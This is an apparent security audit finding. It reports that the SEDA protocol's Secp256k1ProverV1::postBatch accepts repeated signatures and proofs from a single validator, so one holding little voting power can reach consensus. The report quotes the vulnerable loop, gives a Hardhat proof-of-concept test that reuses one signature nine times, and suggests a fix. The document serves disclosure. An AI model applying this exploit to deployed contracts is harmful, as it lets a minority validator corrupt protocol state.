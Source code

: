 Real Raisin Buffalo

High

# Secp256k1ProverV1::postBatch allows to reuse samevalidator signature multiple times to reach consensus batch posting percentage

### Summary

Suppose:
- a validator V has X% of voting Power
- Secp256k1ProverV1.sol::CONSENSUS_PERCENTAGE = 66%  
where X < 66%   

then Secp256k1ProverV1.sol::postBatch could be called with:  
```solidity
function postBatch(
    newBatch,
    signatures,
    validatorProofs
) 
```
where
```js
signatures = [V.sign(newBatchId).serialized,...,V.sign(newBatchId).serialized]
validatorProofs = [data.validatorProofs[V],...,data.validatorProofs[V]]
```
with length of signatures = length of validatorProofs = N
where N*V.votingPower >= Secp256k1ProverV1.sol.CONSENSUS_PERCENTAGE

Ie Secp256k1ProverV1::postBatch  allows to repeat V signature and V proof N times to reach consensus with only one validator with less voting power than Secp256k1ProverV1.sol.CONSENSUS_PERCENTAGE



### Root Cause

The root cause is due to Secp256k1ProverV1.sol::postBatch (L90) doesnt check that signature and validator proof isnt repeated for the newBatch, so it allows to repeat and increment the voting Power   
https://github.com/sherlock-audit/2024-12-seda-protocol/blob/051b5e88a2f530792913910ebf98c50f431b1e3b/seda-evm-contracts/contracts/provers/Secp256k1ProverV1.sol#L90-L94  
https://github.com/sherlock-audit/2024-12-seda-protocol/blob/051b5e88a2f530792913910ebf98c50f431b1e3b/seda-evm-contracts/contracts/provers/Secp256k1ProverV1.sol#L110-L119
```solidity
    function postBatch(
        SedaDataTypes.Batch calldata newBatch,
        bytes[] calldata signatures,
        SedaDataTypes.ValidatorProof[] calldata validatorProofs
    ) external override(ProverBase) whenNotPaused {
	    Secp256k1ProverStorage storage s = _storageV1();
	    //...
	    uint64 votingPower = 0;
        for (uint256 i = 0; i < validatorProofs.length; i++) {
	        if (!_verifyValidatorProof(validatorProofs[i], s.lastValidatorsRoot)) {
                revert InvalidValidatorProof();
            }
            // Verify signature is valid and signed by the validator
            if (!_verifySignature(batchId, signatures[i], validatorProofs[i].signer)) {
                revert InvalidSignature();
            }
@>            votingPower += validatorProofs[i].votingPower;
        }
        //...
}
```


### Internal Pre-conditions

A validator signature and proof for newBatch

### External Pre-conditions

NA

### Attack Path

A validator V with less than CONSENSUS_PERCENTAGE post a newBatch using Secp256k1ProverV1.sol::postBatch with repeated signature and proof to reach consensus percentage and change global state   


### Impact

A dishonest validator with less than CONSENSUS_PERCENTAGE can repeat it signature and proof to reach consensus percentage and change global state 


### PoC

The following PoC reuse 9 times a validator signature with 8.3% voting power (9 * 8.3 = 74) to bypass CONSENSUS_PERCENTAGE limitation and post a new batch    
Save code in test/prover/Secp256k1ProverV1.test.ts under 'batch management' section:  
```js
    it('Allows to reuse validator signature with low voting power to reach consensus', async () => {
      console.log('Allows to reuse validator signature with low voting power to reach consensus');
      const { prover, wallets, data } = await loadFixture(deployProverFixture);

      const { newBatchId, newBatch } = generateNewBatchWithId(data.initialBatch);

      console.log('Reusing one validator signatures and proof');
      const signatures = [
        await wallets[1].signingKey.sign(newBatchId).serialized,
        await wallets[1].signingKey.sign(newBatchId).serialized,
        await wallets[1].signingKey.sign(newBatchId).serialized,
        await wallets[1].signingKey.sign(newBatchId).serialized,
        await wallets[1].signingKey.sign(newBatchId).serialized,
        await wallets[1].signingKey.sign(newBatchId).serialized,
        await wallets[1].signingKey.sign(newBatchId).serialized,
        await wallets[1].signingKey.sign(newBatchId).serialized,
        await wallets[1].signingKey.sign(newBatchId).serialized
      ];

      console.log("Tx is not reverted");
      await expect(
        prover.postBatch(newBatch, signatures,
          [
            data.validatorProofs[1],
            data.validatorProofs[1],
            data.validatorProofs[1],
            data.validatorProofs[1],
            data.validatorProofs[1],
            data.validatorProofs[1],
            data.validatorProofs[1],
            data.validatorProofs[1],
            data.validatorProofs[1]
          ]
        )
      ).to.not.be.reverted;
    });
  });
```
Exec test with  
```bash
reset; npx hardhat test test/prover/Secp256k1ProverV1.test.ts
```
Observe Secp256k1ProverV1::postBatch allows signature reusage and tx is not reverted  


### Mitigation

Implement a check in Secp256k1ProverV1::postBatch to prevent duplicated proof and signatures reusage  
